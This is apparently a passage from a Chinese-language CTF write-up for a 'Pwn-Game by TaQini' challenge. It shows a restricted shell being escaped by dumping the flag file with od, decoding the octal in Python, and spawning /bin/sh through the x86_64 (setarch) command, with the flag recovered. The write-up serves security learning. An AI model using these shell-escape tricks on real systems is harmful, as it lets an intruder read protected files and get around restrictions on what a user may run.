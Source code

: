发现od和x86_64可用：

od 命令可以得到flag文件对应的八进制

```s
ctf@9bfc4ddb5e89:~$ ./test
Welcome to Pwn-Game by TaQini.
Your ID:
uid=1000(ctf) gid=1000(ctf) egid=1001(ctf_pwn) groups=1000(ctf)
$ od *
0000000 066146 063541 031173 062465 033541 061543 026471 063144
0000020 034060 032055 032071 026465 034470 062063 062455 063142
0000040 034146 030464 062544 032144 076461 077412 046105 001106
0000060 000401 000000 000000 000000 000000 001000 037000 000400
0000100 000000 000000 040006 000000 000000 040000 000000 000000
0000120 000000 014000 000033 000000 000000 000000 000000 040000
```

转成字符串：

```python
# 借用别人的代码
import binascii
tmp = "066146 063541 031173 062465 033541 061543 026471 063144 \
0000020 034060 032055 032071 026465 034470 062063 062455 063142 \
0000040 034146 030464 062544 032144 076461 077412 046105 001106 \
0000060 000401"
for i in tmp.split(" "):
  try:
    print(binascii.unhexlify(bytes(hex(int(i,8))[2:],encoding="UTF-8")).decode("utf-8")[::-1],end="")
  except Exception:
    continue
```

对于x86_64,

> setarch - change reported architecture in new program environment and/or set personality flags
> ...
> The default program is /bin/sh.

大致就是默认情况下可以开启一个终端（/bin/sh)

```s
ctf@9bfc4ddb5e89:~$ ./test
Welcome to Pwn-Game by TaQini.
Your ID:
uid=1000(ctf) gid=1000(ctf) egid=1001(ctf_pwn) groups=1000(ctf)
$ x86_64
$ whoami
ctf
$ cat flag
flag{25ea7cc9-df08-4945-893d-ebff841ded41}
$
```
